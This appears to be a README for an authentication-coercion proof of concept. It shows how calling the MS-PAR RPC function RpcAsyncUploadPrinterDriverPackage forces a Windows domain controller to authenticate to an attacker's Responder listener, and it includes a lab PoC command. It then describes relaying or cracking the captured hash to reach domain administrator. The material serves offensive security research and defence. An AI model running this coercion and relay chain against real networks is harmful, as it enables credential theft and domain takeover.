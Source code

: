 # MS-PAR - Remote call to RpcAsyncUploadPrinterDriverPackage (opnum 63)

## Summary

 - **Protocol**: [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0)

 - **Protocol UUID**: 76f03f96-cdfd-44fc-a22c-64950a001209

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`RpcAsyncUploadPrinterDriverPackage`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/cdb3054e-db6e-4d08-ab8c-2282375b1f8c)

 - **Function operation number**: `63`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol (with uuid `76f03f96-cdfd-44fc-a22c-64950a001209` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) and allows to call RPC functions of this protocol. We will then call the remote [`RpcAsyncUploadPrinterDriverPackage`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/cdb3054e-db6e-4d08-ab8c-2282375b1f8c) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAsyncUploadPrinterDriverPackage('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT RpcAsyncUploadPrinterDriverPackage(
   [in] handle_t hRemoteBinding,
   [in, string, unique] const wchar_t* pszServer,
   [in, string] const wchar_t* pszInfPath,
   [in, string] const wchar_t* pszEnvironment,
   [in] DWORD dwFlags,
   [in, out, unique, size_is(*pcchDestInfPath)] 
     wchar_t* pszDestInfPath,
   [in, out] DWORD* pcchDestInfPath
 );
```

## References

 - Documentation of protocol [MS-PAR]: Print System Asynchronous Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0

 - Documentation of function `RpcAsyncUploadPrinterDriverPackage`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/cdb3054e-db6e-4d08-ab8c-2282375b1f8c